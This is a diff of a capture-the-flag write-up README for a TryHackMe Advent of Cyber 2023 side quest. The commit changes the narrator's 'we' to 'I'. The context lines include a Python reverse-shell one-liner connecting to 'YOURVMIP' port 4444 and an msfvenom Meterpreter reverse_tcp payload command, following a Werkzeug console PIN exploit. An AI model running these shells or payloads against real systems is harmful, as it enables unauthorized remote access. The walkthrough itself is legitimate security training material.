

Before and after one commit to JoanneBiltz/CTF-Writeups, a Markdown page: 2023_THM_AOC_Side_Quests/the_bandit_surfer/README.md, 3 parts joined by grey strips. GitHub-like rendering; grey boxes are pictures that could not be loaded.

````diff
--- a/2023_THM_AOC_Side_Quests/the_bandit_surfer/README.md
+++ b/2023_THM_AOC_Side_Quests/the_bandit_surfer/README.md
@@ -97,7 +95,7 @@ Any other number brings us to an error page that has some interesting informatio
   <img height=400 img src=./readme_assets/error-page.PNG/>
 </p>
 
-Researching Werkzeug/3.0.0 Python/3.8.10 we found a [Console PIN Exploit](https://exploit-notes.hdks.org/exploit/web/framework/python/werkzeug-pentesting/) that looked promising.
+Researching Werkzeug/3.0.0 Python/3.8.10 I found a [Console PIN Exploit](https://exploit-notes.hdks.org/exploit/web/framework/python/werkzeug-pentesting/) that looked promising.
 
 To use the exploit you need the following information:
 ```
@@ -194,7 +192,7 @@ Once you enter the correct pin you will have access to the interactive console.
   <img height=300 img src=./readme_assets/interactive.PNG/>
 </p>
 
-The goal now is to get a reverse shell. We used [revshells.com](https://www.revshells.com/) to help generate the code needed for the console.
+The goal now is to get a reverse shell. I used [revshells.com](https://www.revshells.com/) to help generate the code needed for the console.
 
 ```
 import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOURVMIP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
@@ -383,7 +381,7 @@ If you type `enable` into the terminal it lists the available options, and `[` i
 
 `[` is part of the shell that can be enabled and disabled. The rest `# ]` is not and is ignored by the `enable -n [ # ]` command. So, we just need to focus on the  `[`
 
-We spent hours trying everything we could think of until a team member finally figured out how to root the box.
+I spent hours trying everything we could think of until finally figuring out how to root the box.
 
 Create a reverse shell in Meterpreter
 `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=YOURVPNIP LPORT=4445 -f elf -o payload2.elf`
````
Also changed, not shown: other parts of 2023_THM_AOC_Side_Quests/the_bandit_surfer/README.md (+6 -8 lines).
